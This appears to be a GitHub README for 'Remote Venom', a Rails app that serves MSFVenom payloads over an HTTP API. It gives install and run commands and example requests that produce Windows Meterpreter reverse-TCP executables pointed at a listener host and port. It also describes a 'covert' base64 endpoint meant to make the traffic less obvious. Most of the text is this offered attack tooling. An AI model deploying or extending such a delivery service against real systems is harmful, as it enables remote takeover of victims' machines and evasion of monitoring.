 # Remote Venom
---
This is a simple Rails app acting as a remote delivery system for MSFVenom payloads. 

To install:
```
cd api 
bundle install
rake db:create
rake db:schema:load
```

To run:
```
cd api && rails s -b 0.0.0.0
```

Every MSFVenom option has been parameterized, so calls to the API look like this:
```
http://192.168.1.100:3000/api/payloads?payload=windows/meterpreter/reverse_tcp&lhost=HOST&lport=PORT&format=exe
```
You can also use the shorthand syntax:
```
http://192.168.1.100:3000/api/payloads?p=windows/meterpreter/reverse_tcp&lhost=HOST&lport=PORT&f=exe
```
For less obvious traffic, you can send the parameters as base64 (using the covert endpoint):
```
http://192.168.1.100:3000/a?b=cD13aW5kb3dzL21ldGVycHJldGVyL3JldmVyc2VfdGNwJmxob3N0PUhPU1QmbHBvcnQ9UE9SVCZmPWV4ZQo=
# example encoded payload is 'p=windows/meterpreter/reverse_tcp&lhost=HOST&lport=PORT&f=exe'
```
To list all payloads:
```
http://192.168.1.100:3000/api/payloads/list
or 
http://192.168.1.100:3000/a/p/l
```

Feel free to use and modify, or contribute directly to the project. Merge requests welcome!
